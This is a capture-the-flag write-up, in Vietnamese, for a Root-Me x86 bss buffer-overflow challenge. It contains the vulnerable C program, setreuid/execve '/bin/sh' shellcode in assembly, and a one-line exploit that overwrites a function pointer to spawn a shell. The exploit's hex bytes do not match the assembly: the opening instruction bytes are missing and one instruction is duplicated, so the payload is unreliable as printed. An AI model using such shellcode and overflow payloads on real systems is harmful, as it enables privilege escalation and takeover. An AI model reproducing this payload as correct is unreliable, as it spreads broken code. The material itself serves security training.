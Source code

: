 
 ## ELF x86 - BSS BOF
```c
#include <stdio.h>
#include <stdlib.h>
 
char username[512] = {1};
void (*_atexit)(int) =  exit;
 
void cp_username(char *name, const char *arg)
{
  while((*(name++) = *(arg++)));
  *name = 0;
}
 
int main(int argc, char **argv)
{
  if(argc != 2)
    {
      printf("[-] Usage : %s <username>\n", argv[0]);
      exit(0);
    }
   
  cp_username(username, argv[1]);
  printf("[+] Running program with username : %s\n", username);
   
  _atexit(0);
  return 0;
}
```

Đây là một bài bss overflow, đầu tiên nhìn vào chương trình c một biến toàn cục username và một con trỏ hàm _atexit được đặt trong .bss section.
Chúng ta có thể tận dụng lỗi buffer  overflow từ hàm cp_username để exploit chương trình này.
Đầu tiên cần tìm được địa chỉ của biến username. Sử dụng câu lệnh ```info variables``` để xem địa chỉ của biến username

![](Images/bss_print_local_var.png)

Tiếp theo chúng ta đặt shellcode vào trong mảng username do mảng có độ dài 512 byte sao khi đặt shellcode vào phần còn lại chúng ta đặt bất kỳ để lấp đầy mảng.Và sau đó ghi địa chỉ shellcode vào con trỏ hàm để nó thực thi được shellcode.

File .passwd chỉ có thể đọc bởi user `app-systeme-ch7-cracked`
![image2](https://user-images.githubusercontent.com/83420725/144893307-0838b74e-ab63-4963-9898-2d9e78e01793.png)

 Đây là shell code 

```asm
section .text

global _start

_start:
	push   0x46
	pop    eax
	mov    bx, 0x4b7
	mov    cx, 0x453
	int    0x80

	xor    edx, edx
	push   0xb
	pop    eax
	push   edx
	push   0x68732f2f
	push   0x6e69622f
	mov    ebx, esp
	push   edx
	push   ebx
	mov    ecx, esp
	int    0x80
```
     
     nasm -f elf -o shellcode.o shellcode.nasm
     ld -m elf_i386 -o shellcode shellcode.o
     objdump -d shellcode

Exploit

    ./ch7 $(python -c "print '\x58\x66\xbb\xb7\x04\x66\xb9\x53\x04\x66\xb9\x53\x04\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80' + 'A' * (512 - 39) + '\x40\xa0\x04\x08'")
